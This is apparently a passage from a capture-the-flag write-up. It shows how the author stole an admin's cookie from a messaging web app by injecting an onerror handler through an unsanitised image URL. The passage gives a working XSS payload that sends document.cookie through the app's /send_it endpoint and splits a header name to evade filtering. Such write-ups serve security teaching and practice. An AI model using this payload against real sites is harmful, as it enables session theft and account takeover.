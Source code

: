 ### Solving
This time, we can either send a message as text or as an image, providing an
image url.

So, assuming the url of the image we send does not get sanitized, we can forge
a similar `/send_it` request:

```js
fetch(
    "/send_it",
    {
        headers: {["c" + "ontent-type"]: "application/x-www-form-urlencoded"},
        body: "option=message&id=124&c" + "ontent=" + encodeURIComponent(
            "cookie: " + document.cookie
        ),
        method: "POST",
        mode: "cors",
        credentials: "include"
    }
)
```

We will send it as a similar payload, but trimming the leading `<img src="` and
trailing `">` this time around:

```html
_" onerror="fetch('/send_it',{headers:{['c'+'ontent-type']:'application/x-www-form-urlencoded'},body:'option=message&id=124&c'+'ontent='+encodeURIComponent('cookie:'+document.cookie),method:'POST',mode:'cors',credentials:'include'})
```

<img alt="whatsup" src="img/whatsup/5.png">

Once again, after a few minutes, we get the admin cookie right in our messages:
